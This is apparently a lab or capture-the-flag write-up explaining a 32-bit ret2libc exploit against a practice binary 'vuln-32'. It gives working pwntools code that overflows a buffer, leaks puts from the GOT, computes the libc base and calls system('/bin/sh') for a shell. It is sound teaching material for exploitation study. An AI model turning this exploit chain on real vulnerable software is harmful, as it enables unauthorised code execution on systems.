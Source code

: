 # 📜 Exploit Write-up: 32-bit ret2libc on `vuln-32`

## 🔧 Binary Info
- Architecture: 32-bit (x86)
- Protection:
  - NX enabled ✅
  - ASLR enabled ✅
  - No PIE 
  - Dynamic linking ✅

## 🎯 Goal
- Leak the address of `puts()` from the Global Offset Table (GOT)
- Calculate the base address of `libc`
- Use a **ret2libc** technique to call `system("/bin/sh")`

---

## 🧪 Step-by-Step Explanation

### 1. **Initial Setup**
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
````

* Load the ELF binary.
* Use pwntools' context for automatic architecture detection.
* Start the process locally.

```

### 2. **Leak `puts()` Address**

```python
p.recvline()
```

* Receive the initial line to sync with the process I/O.

```python
payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

* Overflows the buffer (32 bytes to reach return address).
* ROP chain:

  * Return to `puts@plt`
  * Return to `main()` after `puts` prints
  * Pass `puts@got` as an argument → leaks the real libc address

```python
p.sendline(payload)
puts_leak = u32(p.recv(4))
p.recvlines(2)
```

* Receive 4 bytes leaked from `puts(puts@got)`.
* Parse them as a little-endian 32-bit address.

---

### 3. **Calculate libc Base**

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')
```

* Subtract known offset of `puts` from the leak.
* Now you can resolve any libc symbol dynamically.

---

### 4. **Send Final Payload: system("/bin/sh")**

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)
```

* Overflow again
* Chain:

  * Call `system("/bin/sh")` to spawn a shell
  * Optionally call `exit()` for graceful exit
  * `/bin/sh` is found dynamically in libc

```python
p.sendline(payload)
p.interactive()
```

* Send final payload
* Switch to interactive mode → get a shell 🐚

---

## ✅ Result

![result](../img/32_bit.png)

---

## 🧠 Notes

* Works only if:

  * Binary is not PIE (so addresses like `main()` are fixed)
  * You have the correct `libc` (or can identify it from leaks)
* If binary is remote or using a different libc, use tools like `libc-database` to identify the correct version.


